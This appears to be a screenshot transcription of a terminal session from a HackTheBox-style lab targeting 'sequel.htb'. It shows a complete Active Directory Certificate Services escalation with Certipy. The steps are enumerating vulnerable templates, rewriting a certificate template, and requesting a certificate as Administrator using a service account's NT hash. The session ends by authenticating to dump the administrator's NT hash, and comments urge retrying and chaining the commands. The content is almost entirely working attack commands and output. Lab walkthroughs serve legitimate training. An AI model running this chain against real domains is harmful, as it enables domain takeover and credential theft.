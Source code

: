 ┌──(kali㉿Senbonzakura)-[~/escape]  
└─$ KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad find -scheme ldap -k -debug -target dc01.sequel.htb -dc-ip ${ip} -vulnerable -stdout  
Certipy v4.8.2 - by Oliver Lyak (ly4k)  
  
  
// This output looks important....probably should read it all....  
<snip>----------------------------------------------------------</snip>  
  
    Enroll                          : SEQUEL.HTB\Authenticated Users  
Certificate Templates  
  0  
    Template Name                      : DunderMifflinAuthentication  
    Display Name                        : Dunder Mifflin Authentication  
    Certificate Authorities            : sequel-DC01-CA  
    Enabled                            : True  
    Client Authentication              : True  
  
<important>-------------------------------------------------</important>  
  
┌──(kali㉿Senbonzakura)-[~/escape]  
└─$ KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target dc01.sequel.htb -dc-ip ${ip}  
Certipy v4.8.2 - by Oliver Lyak (ly4k)  
  
[*]Updating certificate template 'DunderMifflinAuthentication'  
[*]Successfully updated 'DunderMifflinAuthentication'  
  
//be quick cleanup scrip  
//retry and or chain them if it doesn't work....  
  
┌──(kali㉿Senbonzakura)-[~/escape]  
└─$ certipy-ad req -u ca_svc -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target DC01.sequel.htb -dc-ip ${ip} -template DunderMifflinAuthentication -upn Administrator@sequel.htb -ns ${ip} -dns ${ip}  
Certipy v4.8.2 - by Oliver Lyak (ly4k)  
  
[*]Requesting certificate via RPC  
[*]Successfully requested certificate  
[*]Request ID is 7  
[*]Got certificate with multiple identifications  
    UPN: 'Administrator@sequel.htb'  
    DNS Host Name: '10.129.xx.xxx'  
[*]Certificate has no object SID  
[*]Saved certificate and private key to 'administrator_10.pfx'  
  
//This one I might fail so again retry and maybe chain...whatever works....  
                                                                                                                                                                                                       
┌──(kali㉿Senbonzakura)-[~/escape]  
└─$ certipy-ad auth -pfx administrator_10.pfx -dc-ip ${ip}  
Certipy v4.8.2 - by Oliver Lyak (ly4k)  
  
[*]Found multiple identifications in certificate  
[*]Please select one:  
    [0] UPN: 'Administrator@sequel.htb'  
    [1] DNS Host Name: '10.129.xx.xxx'  
> 0  
[*]Using principal: administrator@sequel.htb  
[*]Trying to get TGT...  
[*]Got TGT  
[*]Saved credential cache to 'administrator.ccache'  
[*]Trying to retrieve NT hash for 'administrator'  
[*]Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e*************  
  